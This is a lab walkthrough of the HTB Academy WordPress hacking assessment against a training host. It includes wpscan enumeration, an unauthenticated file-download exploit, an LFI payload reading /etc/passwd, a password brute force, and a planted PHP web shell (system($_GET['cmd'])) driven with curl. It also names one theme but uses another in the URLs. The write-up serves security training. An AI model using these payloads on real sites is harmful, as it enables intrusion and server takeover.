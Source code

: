 ```yaml
---
title: 'HTB Academy: Hacking WordPress Module'
author: saramazal
date: 2024-11-05
categories: [HTB Academy]
tags: [HackTheBox Academy, cbbh, cpts, Skills Assessment, wpscan, wordpress]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/wp-cover.png
---
```



## Penetration Test Scenario

You have been contracted to perform an external penetration test against the company INLANEFREIGHT that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

## Questions

1. Identify the WordPress version number.
2. Identify the WordPress theme in use.
3. Submit the contents of the flag file in the directory with directory listing enabled.
4. Identify the only non-admin WordPress user. (Format: `<first-name> <last-name>`)
5. Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.
6. What is the version number of the plugin vulnerable to an LFI?
7. Use the LFI to identify a system user whose name starts with the letter “f”.
8. Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory.

## Answers

For identifying the WordPress version number and theme, use one of these tools:

- Wappalyzer Extension
- View Page Source or DevTools
- nmap scan
- `wpscan —url http://<target_ip> —enumerate p`

For receiving results, add target IP to hosts:

```bash
sudo nano /etc/hosts
```

Add: `<target_ip> blog.inlanefreight.local`

Refresh your browser. Now you can find the WordPress version number and theme with Wappalyzer, View Page Source/DevTools, or use `wpscan`.

- **WordPress version number**: 5.1.6
- **WordPress theme in use**: Twenty Nineteen

In our `wpscan`, we can find a link:

`http://blog.inlanefreight.local/wp-content/uploads/`

You can open this link in the browser or use the terminal:

```bash
curl http://blog.inlanefreight.local/wp-content/uploads/upload_flag.txt | html2text
```

- **Flag**: HTB{d1sabl3_……………..!}

For finding users:

```bash
wpscan --url http://blog……/ --enumerate u
```

- **Non-admin user**: Cha**** Wig****

In our `wpscan`, we can find vulnerable plugins and search about them on Google.

One of the plugins:

- **WordPress Plugin**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019-19985

### Exploit Details

- **Exploit Title**: WordPress Plugin Email Subscribers & Newsletters 4.2.2 — Unauthenticated File Download
- **Google Dork**: “Stable tag” inurl:wp-content/plugins/email-subscribers/readme.txt
- **Date**: 2020–07–20
- **Exploit Author**: KBA@SOGETI_ESEC
- **Vendor Homepage**: [Email Subscribers](https://www.icegram.com/email-subscribers/)
- **Software Link**: [Plugin Archive](https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2)
- **Version**: <= 4.2.2
- **Tested on**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019–19985

**Example Command**:

```bash
curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- **Flag from vulnerable plugin**: HTB{unauTH_……..!}

From our `wpscan`, we can search the exploit database for:

- **Vulnerable Plugin**: Site Editor
- **CVE ID**: CVE-2018-7422
- **Product**: Site Editor WordPress Plugin — [Site Editor](https://wordpress.org/plugins/site-editor/)
- **Vendor**: Site Editor
- **Tested version**: 1.1.1
- **CVE ID**: CVE-2018–7422

### Proof of Concept

```bash
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **Version number of the plugin vulnerable to an LFI**: 1.1.1

**Use Proof of Concept**:

```bash
http://<$TARGET>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **System user**: frank.mclane

Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory:

```bash
wpscan --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/wordlists/rockyou.txt
```

Login with: `erika:010203`

Go to the theme editor. Select the Twenty Sixteen Theme. Add to the `404.php` page:

```php
system ($_GET['cmd']);
```

Save and check how it works:

```bash
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=pwd'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/dxxxxxxx603c_flag.txt'

```

- **Final Flag**: HTB{w0rdPr355_………7}

  [![HTB Academy Badge](/images/htb-academy/htb-wp.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/e8bc07e8-0d0f-11ef-b18d-bea50ffe6cb4)

[Hacking WordPress Module](https://academy.hackthebox.com/course/preview/hacking-wordpress)

## Great! Happy Hacking
